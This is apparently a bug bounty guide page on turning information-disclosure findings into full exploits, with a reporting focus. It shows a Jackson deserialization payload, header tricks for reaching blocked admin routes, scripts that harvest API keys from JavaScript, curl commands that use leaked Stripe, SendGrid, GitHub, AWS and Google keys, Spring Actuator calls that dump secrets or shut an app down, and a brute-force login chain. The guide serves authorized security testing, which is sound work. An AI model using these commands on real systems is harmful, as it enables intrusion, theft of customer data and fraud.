

> Source: https://bugbounty.info/Chains/Info-Disclosure-to-Full-Exploit

# Info Disclosure to Full Exploitation

## Why This Chain Works

Triagers want to close info disclosure findings as informational. "This doesn't directly harm users." That's usually the wrong call, and it's your job to show why. The real question isn't "what is disclosed" but "what does an attacker do with this?" A stack trace is recon. An internal path is a roadmap. An API key in JavaScript is a skeleton key. You have to close the loop and show the next step.

Related: [Recon](../Recon/), [JavaScript Analysis](../Recon/JavaScript-Analysis), CVE Exploitation

---

## Attack Flow



---

## Scenario 1: Stack Trace to CVE Exploitation

### What You Find

```http
HTTP/1.1 500 Internal Server Error
 
java.lang.NullPointerException
    at com.example.app.UserController.getUser(UserController.java:145)
    at sun.reflect.NativeMethodAccessorImpl.invoke0(Native Method)
    ...
 
Apache Struts 2.5.10
Spring Boot 1.5.3.RELEASE
Jackson 2.9.0
```

### What You Do With It

1. Note every framework and version.
2. Search for CVEs: `apache struts 2.5.10 CVE`, `spring boot 1.5.3 CVE`, `jackson 2.9.0 CVE`.
3. Jackson 2.9.0 is vulnerable to CVE-2017-7525 (deserialization RCE). Spring Boot 1.5.3 has several known issues.
4. Test the Jackson deserialization payload:

```json
["com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl",
 {"transletBytecodes":["ACED..."],
  "transletName":"a.b",
  "outputProperties":{}}]
```

1. If it pops a callback, you have RCE from an info disclosure finding.

**The report:** "This stack trace reveals Apache Struts 2.5.10 and Jackson 2.9.0. Jackson 2.9.0 is vulnerable to CVE-2017-7525. I confirmed the deserialization endpoint accepts Jackson-formatted input. PoC showing command execution attached."

---

## Scenario 2: Internal Paths to Hidden Endpoints

### What You Find

```text
FileNotFoundException: /var/app/config/internal-api.properties not found
Path: /internal/v2/admin/user-management
Class: com.example.controllers.InternalAdminController
```

### What You Do With It

1. Try `GET /internal/v2/admin/user-management` directly.
2. The internal path suggests it's meant to be blocked at the load balancer, not in the app itself.
3. Try bypassing with:
  - `X-Forwarded-For: 127.0.0.1`
  - `X-Real-IP: 127.0.0.1`
  - `X-Original-URL: /internal/v2/admin/user-management`
  - `Host: localhost`
  - `X-Custom-IP-Authorization: 127.0.0.1`
4. If any of those bypass the restriction, you're in the internal admin panel.

Also, that config file path tells you where app configs live. If there's a file disclosure vulnerability elsewhere, now you know what to read: `/var/app/config/internal-api.properties`, which almost certainly contains database credentials or internal API keys.

---

## Scenario 3: API Keys in JavaScript

### What You Find

Browse to the app, open DevTools, search through JS files for common patterns:

```bash
# In browser console or via automated tooling
# Look for:
# - sk-live-, sk-test- (Stripe)
# - AKIA, ASIA (AWS)
# - AIzaSy (Google)
# - xoxb-, xoxp- (Slack)
# - ghp_, gho_, github_pat_ (GitHub)
# - SG. (SendGrid)
```

Using tools:

```bash
# Download all JS files from the target
katana -u https://target.com -jc | grep "\.js$" | while read url; do
  curl -s "$url" >> all_js.txt
done
 
# Search for API keys
trufflehog filesystem --directory ./js_files/
# or
grep -Eo "(AKIA|AIzaSy|sk-live-|xoxb-|SG\.)[A-Za-z0-9_-]{20,}" all_js.txt
```

### What You Do With It

**AWS key (`AKIA...`):**

```bash
aws sts get-caller-identity --access-key-id AKIA... --secret-access-key ...
# Shows what account and role this key belongs to
# Then enumerate permissions with enumerate-iam
```

**Stripe key (`sk_live_...`):**

```bash
curl https://api.stripe.com/v1/customers \
  -u sk_live_YOUR_KEY:
# Lists all customers with payment methods
# sk_live keys have full read/write - can issue refunds, create charges, read all PII
```

**SendGrid key (`SG....`):**

```bash
curl --request GET \
  --url https://api.sendgrid.com/v3/marketing/contacts \
  --header "Authorization: Bearer SG.YOUR_KEY"
# Read all marketing contacts (PII leak)
# Can also send emails as the organization (phishing via legitimate domain)
```

**GitHub token (`ghp_...`):**

```bash
curl -H "Authorization: token ghp_..." https://api.github.com/user
curl -H "Authorization: token ghp_..." https://api.github.com/user/repos?type=all
# May have access to private repos containing source code, more secrets
```

**Google API key (`AIzaSy...`):**

```bash
# Test which APIs it's enabled for
curl "https://maps.googleapis.com/maps/api/geocode/json?address=test&key=AIzaSy..."
curl "https://www.googleapis.com/oauth2/v1/tokeninfo?access_token=AIzaSy..."
# If Maps API: billing abuse possible (generate charges for the org)
# If Firebase: potentially read/write database
```

---

## Scenario 4: Debug Endpoints

### What You Find

```http
GET /_debug HTTP/1.1 -> 200 OK
GET /actuator HTTP/1.1 -> 200 OK (Spring Boot Actuator)
GET /api/debug/info HTTP/1.1 -> 200 OK
```

### What You Do With It

Spring Boot Actuator endpoints:

```bash
curl https://target.com/actuator/env
# Returns ALL environment variables including DB passwords, API keys, secret keys
 
curl https://target.com/actuator/heapdump
# Downloads a JVM heap dump - contains all in-memory data including session tokens
 
curl https://target.com/actuator/mappings
# Lists all URL routes including internal ones
 
curl -X POST https://target.com/actuator/shutdown
# Shuts down the application (don't do this)
 
curl -X POST https://target.com/actuator/loggers/ROOT \
  -H "Content-Type: application/json" \
  -d '{"configuredLevel":"TRACE"}'
# Increases logging verbosity, potentially exposing more data
```

The `/actuator/env` endpoint alone is typically a critical. It contains every secret the app has.

---

## Building the Chain for Reporting

The key is showing each link explicitly. Don't make the triager do the mental work.

```text
Finding: Stack trace at /api/users/error exposes "Spring Boot 2.3.1"
Step 1: Searched NVD for Spring Boot 2.3.1 -> CVE-2020-5408 (Spring Security brute force)
Step 2: Identified /login endpoint uses Spring Security default config
Step 3: No rate limiting on /login
Step 4: Brute-forced admin:admin in 3 requests (no lockout)
Step 5: Logged in as admin, full panel access confirmed
 
Without the version disclosure, this would require blind testing.
With the disclosure, an attacker can target known vulnerabilities directly.
```

---

## Quick Reference: Info Type -> Attack Vector

| Disclosed Info | What It Enables |
| --- | --- |
| Framework + version | Targeted CVE exploitation |
| Internal file paths | Path traversal, config file reads |
| AWS/GCP/Azure key | Cloud service access, data exfil, billing abuse |
| Stripe/payment key | PII access, financial manipulation |
| Database connection string | Direct DB access if network allows |
| JWT secret | Forge arbitrary tokens, ATO any account |
| Debug endpoint active | Read env vars, heap dumps, route maps |
| Git repository exposed (.git/) | Full source code, commit history, embedded secrets |
| Private IP addresses | Network topology for internal attacks |
| Username enumeration | Targeted credential stuffing |

---

## Reporting Notes

Never submit info disclosure without showing what it enables. If you found a version number, search for CVEs and test them. If you found an API key, prove what it has access to. If you found an internal path, show that accessing it works. The triager's default is "low, informational at best." Your job is to show them the full kill chain that starts with that one disclosure. Severity of the report should reflect the worst-case exploitation path, not the disclosure itself.
